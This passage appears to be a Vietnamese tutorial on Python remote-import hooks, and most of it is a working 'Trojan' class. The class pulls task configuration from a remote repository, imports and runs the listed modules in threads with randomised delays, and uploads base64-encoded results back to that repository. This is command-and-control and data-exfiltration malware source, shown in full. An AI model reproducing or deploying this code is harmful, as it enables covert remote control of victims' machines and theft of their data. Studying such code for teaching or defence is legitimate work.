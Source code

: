 * `name = "my_remote_module"` được truyền tự động bởi Python. Tức, khi import 1 module mà nó không có sẵn thì `name` là tên của module không có sẵn đó.
* Nếu **find_module()** trả về một đối tượng hợp lệ, Python sẽ gọi tiếp:

```python
loader.load_module('my_remote_module')
```
* `name = "my_remote_module"` lại được truyền vào load_module() tự động.
Nhờ đó, dù không gọi load_module() trực tiếp, Python vẫn truyền vào name đúng.

```python
class Trojan:
    """Main Trojan class to manage module execution."""
    def __init__(self, id, repo):
        self.id = id
        self.config_file = f'{id}.json'
        self.data_path = f'data/{id}/'
        self.repo = repo

    def get_config(self):
        """Fetches the configuration file and imports required modules."""
        try:
            config_json = get_file_content('config', self.config_file, self.repo)
            config = json.loads(config_json)

            for task in config:
                if task['module'] not in sys.modules:
                    __import__(task['module']) 

            return config
        except Exception as e:
            print(f"[!] Error loading config: {e}")
            return []

    def module_runner(self, module):
        """Runs a specified module and stores the result."""
        try:
            result = sys.modules[module].run()
            self.store_module_result(result)
        except Exception as e:
            print(f"[!] Error running module {module}: {e}")

    def store_module_result(self, data):
        """Stores module execution results in the repository."""
        try:
            message = datetime.now().isoformat()
            remote_path = f'data/{self.id}/{message}.data'
            bindata = bytes('%r' % data, 'utf-8')
            self.repo.create_file(remote_path, message, base64.b64encode(bindata))
        except Exception as e:
            print(f"[!] Error storing result: {e}")

    def run(self):
        """Continuously fetches config and runs tasks."""
        while True:
            config = self.get_config()
            for task in config:
                threading.Thread(
                    target=self.module_runner,
                    args=(task['module'],)
                ).start()
                time.sleep(random.randint(1, 10))

            time.sleep(random.randint(30*60, 3*60*60))
```